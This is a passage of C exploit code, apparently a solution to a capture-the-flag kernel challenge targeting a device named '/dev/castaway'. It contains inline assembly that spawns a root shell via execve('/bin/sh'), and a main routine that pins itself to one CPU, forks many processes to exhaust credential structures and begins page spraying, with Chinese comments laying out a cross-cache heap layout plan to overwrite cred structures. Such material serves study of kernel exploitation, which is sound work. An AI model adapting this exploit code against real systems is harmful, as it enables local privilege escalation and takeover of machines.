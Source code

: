 ```c
        "lea rsi, [shell_args];"
        "mov rdx, 0;"
        "syscall;" // execve("/bin/sh\x00", shell_args, NULL);
        "go:"
        "lea rdi, [ts];"
        "xor rsi, rsi;"
        "mov rax, 35;"
        "syscall;"

    );
}

int main(int aragc, char **argv, char **envp)
{   
    char buffer[0x1000];

    cpu_set_t cpu_set;
    char th_stack[0x1000], buf[0x1000];

    /* to run the exp on the specific core only */
    CPU_ZERO(&cpu_set);
    CPU_SET(0, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    info("Starting to exploit...");
    dev_fd = open("/dev/castaway", O_RDWR);
    if (dev_fd < 0)
    {
        err_exit("Failed to open device.");
    }

    /**
     * 整理思路。
     * 1. 首先，我们简单地通过fork来消耗掉当前的cred结构体。
     * 2. 接下来，我们喷射大量页面。在这个过程中，若 order 0 页面被消耗完毕时，其会向buddy system请求页面，从而获得连续的页面.
     * 3. 随后，释放奇数位置的页面，并将其占用为 cred 结构体
     * 4. 最后，释放偶数位置的页面，并将其占用为 vulnerable obj
     */

    /**
     * 0x00. 通过fork消耗当前结构体
     */
    for (int i = 0; i < CRED_INITIAL_NUM; i++)
    {
        pid_t p_t;
        p_t = fork();
        if (!p_t)
        {
            sleep(0x100000);
        }
        else if (p_t < 0)
        {
            err_exit("Failed to spary cred at initial.");
        }
    }

    /**
     * 0x01. 喷射大量 pages
     */
    info("Preparing for praying pages...");

    // 初始化
    pipe(cmd_pipe_req);
```